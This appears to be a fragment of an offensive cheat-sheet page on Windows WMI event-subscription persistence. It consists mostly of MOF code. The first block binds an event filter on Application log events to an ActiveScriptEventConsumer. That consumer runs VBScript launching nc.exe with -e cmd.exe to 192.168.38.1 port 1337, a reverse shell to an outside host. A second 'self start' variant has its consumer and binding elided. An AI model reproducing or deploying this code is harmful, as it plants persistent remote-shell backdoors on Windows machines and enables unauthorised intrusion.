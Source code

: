 Wait for a windows event and trigger:
```powershell
#pragma namespace ("\\\\.\\root\\subscription")

instance of __EventFilter as $FILTER
{
    Name = "CLASS_FIRST_TEST";
    EventNamespace = "root\\cimv2";
 Query = "SELECT * FROM __InstanceCreationEvent "
  "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND "
  "TargetInstance.LogFile=\"Application\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    Name = "CLASS_FIRST_TEST";
    ScriptingEngine = "VBScript";

    ScriptText =
      "Set objShell = CreateObject(\"WScript.Shell\")\n"
   "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n";
};

instance of __FilterToConsumerBinding
{
    Consumer = $CONSUMER ;
    Filter = $FILTER ;
};
```
> - Ref: [http://www.hsc-news.com/archives/2011/000078.html](http://www.hsc-news.com/archives/2011/000078.html)

Self start:
```powershell
#pragma namespace ("\\\\.\\root\\subscription")

class WoootClass
{
 [key]
 string Name;
};

instance of __EventFilter as $FILTER
{
    Name = "XPLOIT_TEST_SYSTEM";
    EventNamespace = "root\\subscription";
 Query = "SELECT * FROM __InstanceCreationEvent "
         "WHERE TargetInstance.__class = \"WoootClass\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    // ...     
};

instance of __FilterToConsumerBinding
{
    // ...
};

```